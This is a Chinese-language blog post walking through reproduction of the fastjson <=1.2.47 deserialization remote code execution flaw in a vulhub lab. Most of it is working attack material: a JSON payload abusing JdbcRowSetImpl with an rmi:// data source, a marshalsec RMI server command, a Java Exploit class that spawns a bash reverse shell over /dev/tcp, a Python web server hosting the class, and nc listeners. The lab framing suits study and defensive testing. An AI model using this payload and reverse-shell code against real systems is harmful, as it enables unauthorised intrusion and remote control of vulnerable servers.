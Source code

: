 ```yaml
---
layout: post
title: fastjson<=1.2.47远程代码执行漏洞复现
author: "枫丹白露"
header-style: text
lang: zh
tags:
  - fastjson
  - java
  - RCE
---
```


Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。
 

## 0x01 攻击思路
![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/1.png)
## 0x02 环境搭建
我用的vulhub上的fastjson环境进行复现，项目地址：
> [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)   

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 0x03 测试漏洞
准备一台服务器监听流量  
`nc -lvp 7777`  
发送如下payload，将IP改为监听服务器IP  
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://your-ip:7777/Exploit",
        "autoCommit":true
    }
}
```
如果监听服务器有流量，说明存在漏洞，可以继续下一步  

![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/2.png)
## 0x04 准备RMI服务和Web服务
首先我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口  

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://your-ip:port/#Exploit" 9999
```
然后我们准备Exploit.java攻击代码，由于该漏洞没有回显，所以我使用命令反弹shell，你们也可以修改成你们执行的代码

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/ip/port 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

将上述payload上传到RMI服务同一目录，使用`javac Explpit.java`编译成class文件，然后通过python开启一个web服务：`python -m SimpleHTTPServer 80`

## 0x05 准备
回顾一下，现在目录应该有三个文件

```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器正在开启LDAP和Web

```
LDAP Server：Listening on 0.0.0.0:9999
Web  Server：Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

一个nc正在准备接收反弹回来的SHELL

```
nc -lvp 8000
```

## 0x06 执行
抓包，向靶场服务器发送Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://ip:9999/Exploit",
        "autoCommit":true
    }
}
```

![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/3.png)

接下来如果没有任何报错的话，RMI将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行
你的RMI服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL

![](/img/in-post/post-fastjson<=1.2.47远程代码执行漏洞复现/4.png)
## 0x07 注意
由于攻击过程需要搭建两个服务，RMI和web，所以攻击思路一定要清晰，我们在漏洞点通过payload请求RMI服务上的Exploit类，RMI服务器接收到请求后加载远程web服务上的Exploit类，从而执行恶意代码。所以启动RMI服务的时候记住请求http服务是python开启的web ip和端口，最后的是RMi服务自己监听的端口，nc监听的是Exploit.java中的端口号，不要搞错了。

另外，当javac版本和目标服务器差太多，会报一个这样得到错误，所以需要使用1.8的javac来编译Exploit.java